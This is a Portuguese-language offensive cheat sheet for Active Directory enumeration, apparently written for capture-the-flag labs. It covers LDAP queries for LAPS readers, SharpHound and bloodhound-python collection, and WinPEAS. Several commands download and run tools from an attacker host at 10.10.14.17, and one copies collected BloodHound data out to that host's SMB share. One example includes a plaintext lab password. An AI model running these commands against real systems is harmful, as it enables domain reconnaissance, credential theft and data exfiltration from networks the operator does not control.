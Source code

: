 Membros dos grupos:

```
$ldap_filter = "(name=LAPS_Readers)"; $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain();$PDC = ($domainObj.PdcRoleOwner).Name;$SearchString = "LDAP://";$SearchString += $PDC + "/";$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))";$SearchString += $DistinguishedName;$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString);$objDomain = New-Object System.DirectoryServices.DirectoryEntry;$Searcher.SearchRoot = $objDomain;$Searcher.filter=$ldap_filter;$Result = $Searcher.FindAll(); Foreach($obj in $Result) {$obj.Properties.member}
```

#### SharpHound:

```
(new-object net.webclient).downloadfile('http://10.10.14.17/SharpHound.exe', 'c:\temp\sh.exe')
./sh.exe
```

```
download 20240125121655_BloodHound.zip
#ou
copy 20240125121655_BloodHound.zip \\10.10.14.17\smb\bh.zip
```

#### bloodhound-python

```
bloodhound-python -u <username> -p <password> -d <domain> -v --zip -c All -dc <dc_hostname> -ns <dns_ip>
```

```
#Exemplo
bloodhound-python -u mhope -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -v --zip -c All -dc MEGABANK.LOCAL -ns 10.10.10.172
```

Depois precisamos iniciar o neo4j console para conseguir abrir o bloodhound:

```
sudo neo4j console
<CTRL+Z>
bg
bloodhound
```

Vale considerar que já deixei as credenciais salvas para evitar problemas

### Enumerar hashes de senha ou senhas em texto claro

Detalhe que podemos enumerar o console history do powershell cmo WinPEAS, por exemplo pra fazer a enumeração completa:

```
wget http://10.10.14.17/4-privilege%20escalation/winPEASx64.exe -o wp.exe
./wp.exe
```
